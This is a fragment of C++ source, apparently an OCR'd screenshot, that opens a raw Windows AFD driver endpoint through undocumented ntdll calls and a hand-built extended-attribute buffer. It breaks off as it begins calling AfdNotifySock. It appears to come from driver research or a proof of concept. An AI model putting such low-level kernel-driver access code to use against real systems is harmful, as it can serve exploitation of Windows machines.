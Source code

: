 ```cpp
    auto NtDeviceIoControlFile = (pNtDeviceIoControlFile)GetProcAddress(ntdll, "NtDeviceIoControlFile");

    if (!NtCreateFile || !NtDeviceIoControlFile) {
        printf("[!] Failed to resolve ntdll functions\n");
        return 1;
    }

    HANDLE hSocket = nullptr;
    HANDLE hEvent = CreateEventW(nullptr, FALSE, FALSE, nullptr);
    if (!hEvent) {
        printf("[!] Failed to create event: %lu\n", GetLastError());
        return 1;
    }

    //
    // AFD extended attributes (as dictated by x86matthew's blog)
    //
    BYTE eaBuffer[] = {
        0x00, 0x00, 0x00, 0x00, 0x00, 0x0F, 0x1E, 0x00,
        0x41, 0x66, 0x64, 0x4F, 0x70, 0x65, 0x6E, 0x50,
        0x61, 0x63, 0x6B, 0x65, 0x74, 0x58, 0x58, 0x00,
        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
        0x02, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00,
        0x06, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
        0x00, 0x00, 0x00, 0x00, 0x60, 0xEF, 0x3D, 0x47, 0xFE
    };

    UNICODE_STRING afdName;
    RtlInitUnicodeString(&afdName, L"\\Device\\Afd\\Endpoint");

    OBJECT_ATTRIBUTES objAttr = { sizeof(OBJECT_ATTRIBUTES), nullptr, &afdName, OBJ_CASE_INSENSITIVE };
    IO_STATUS_BLOCK ioStatus = {};

    NTSTATUS status = NtCreateFile(
        &hSocket,
        0xC0140000, // GENERIC_READ | GENERIC_WRITE | SYNCHRONIZE
        &objAttr,
        &ioStatus,
        nullptr,
        0,
        FILE_SHARE_READ | FILE_SHARE_WRITE,
        FILE_OPEN,
        0,
        eaBuffer,
        sizeof(eaBuffer)
    );

    if (status != 0) {
        printf("[!] NtCreateFile failed: 0x%X\n", status);
        CloseHandle(hEvent);
        return 1;
    }

    printf("[+] AFD socket handle: 0x%p\n", hSocket);

    //
    // Call AfdNotifySock
    //
    status = NtDeviceIoControlFile(
        hSocket,
        hEvent,
```